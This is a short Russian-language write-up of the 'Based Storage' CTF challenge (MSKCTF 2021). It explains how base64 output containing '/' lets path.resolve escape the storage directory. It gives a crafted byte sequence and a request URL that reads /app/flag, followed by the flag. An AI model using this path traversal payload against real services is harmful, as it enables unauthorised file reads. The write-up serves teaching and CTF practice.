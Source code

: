 # Based Storage
_http://based-storage.tasks.2021.ctf.cs.msu.ru/_


### Solution
В исходном коде (а именно в [storage.js](src/storage/storage.js)) наблюдаем интересную операцию:
```javascript
return path.resolve(this.dir, Buffer.from(filename).toString('base64'))
```

Все кажется надежным... если не знать, что в base64 есть символ `/` и что `path.resolve` без проблем переходит в другую директорию.

Зная, что флаг лежит в `/app/flag`, пытаемся подобрать такую комбинацию из слэшей, чтобы base64 был валидным и чтобы все байты строки можно было посылать.

Base64 должен соответствовать regex `/(\/)+app(\/)+flag/g` и быть валидным.

У нас получилась последовательность `\xfd\xaa\x69\xff\xff\xff\x7e\x56\xa0.`

`http://based-storage.tasks.2021.ctf.cs.msu.ru/files?filename=$(printf '\xfd\xaa\x69\xff\xff\xff\x7e\x56\xa0')&encoding=ISO-8859-1`


Flag: `MSKCTF{sl45h_15_4_val1d_84se64_sym80l}`

